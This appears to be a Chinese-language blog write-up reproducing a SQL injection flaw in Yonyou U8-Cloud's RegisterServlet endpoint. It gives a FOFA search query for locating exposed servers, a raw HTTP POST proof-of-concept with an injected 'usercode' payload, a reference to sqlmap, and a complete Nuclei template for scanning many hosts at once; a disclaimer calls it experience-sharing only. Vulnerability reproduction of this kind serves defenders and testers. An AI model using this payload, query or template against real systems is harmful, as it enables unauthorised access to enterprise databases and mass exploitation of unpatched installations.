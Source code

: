 # 原创
：  漏洞复现--用友U8-cloud RegisterServlet SQL注入

# 漏洞复现--用友U8-cloud RegisterServlet SQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

U8 cloud集中于企业内部管理管控，管理规范，高效，协同，透明。通过云模式，低成本，快速部署，即租即用帮助企业免除硬软件投入的快速 搭建企业管理架构。通过云服务连接，业务模式、服务模式的经营创新。该产品RegisterServlet处存在SQL注入

### 二：漏洞影响版本

用友U8-Cloud

### 三：网络空间测绘查询

fofa:<br/> `app="用友-U8-Cloud"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9dd6dd6ff2b25e537e2774f066da7464.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/297a3f521a68c3684d33048f9fcbbec7.jpeg"/><br/> 访问/servlet/RegisterServlet<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6a0eddbab81984c6834b434cadcb205c.jpeg"/><br/> 如上页面即可能存在漏洞<br/> POC：

```
POST /servlet/RegisterServlet HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Length: 85
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&gt;0--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/781b803e8eb1709888faab20003a9e70.jpeg"/><br/> SQLMAP：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a49b91763df5d282f292295042458c61.jpeg"/>

### 五：批量检测

```
id: yonyou-u8-cloud-RegisterServlet-sql

info:
  name: 用友u8-cloud RegisterServlet SQL注入
  author: rain
  severity: high
  description:
    用友U8 cloud的RegisterServlet接口对用户传入的参数未进行有效的过滤，攻击者可利用该漏洞进行sql注入。
  tags: [用友U8-Cloud, sql注入, 高危]
  metadata:
    fofa-query: app="用友-U8-Cloud"
http:
  - raw:
      - |-
        POST /servlet/RegisterServlet HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
        Connection: close
        Content-Length: 85
        Accept: */*
        Accept-Language: en
        Content-Type: application/x-www-form-urlencoded
        X-Forwarded-For: 127.0.0.1
        Accept-Encoding: gzip

        usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&gt;0-- 
     

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - 'status_code==200 &amp;&amp; contains(body_1, "e10adc3949ba59abbe56e057f20f883e")'

```
